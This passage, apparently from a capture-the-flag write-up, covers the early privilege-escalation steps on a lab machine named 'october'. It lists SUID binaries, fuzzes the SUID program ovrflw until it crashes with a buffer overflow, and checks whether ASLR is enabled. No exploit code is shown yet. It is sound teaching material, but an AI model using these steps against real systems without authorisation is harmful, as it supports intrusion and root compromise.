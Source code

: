 ```
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 156708 Oct 14  2016 /usr/bin/sudo
-rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-x 1 root root 7377 Apr 21  2017 /usr/local/bin/ovrflw
...[snip]...

```

The output is quite long, but the SUID binary section jumps out at me, specifically `/usr/local/bin/ovrflw`.

If I run the program without arguments, it tells me to input a string:

```

www-data@october:/usr/local/bin/$ ./ovrflw
Syntax: ./ovrflw <input string>

```

If I pass in a short string, the program doesn’t do anything. If I pass in 500 As, it seg faults:

```

www-data@october:/usr/local/bin/$ ./ovrflw AAAAAAAAAA
www-data@october:/usr/local/bin/$ ./ovrflw $(python -c 'print "A"*500')
Segmentation fault

```

Seg fault is a good indications that I should look into a buffer overflow.

### ovrflw Protections

First, I’ll check ASLR on the host. I can see from `/proc/sys/kernel/randomize_va_space` that it is on. I can also see that when I run `ldd` on the binary, the libc address changes each time:

```

www-data@october:/home/harry$ cat /proc/sys/kernel/randomize_va_space 
2

www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
```
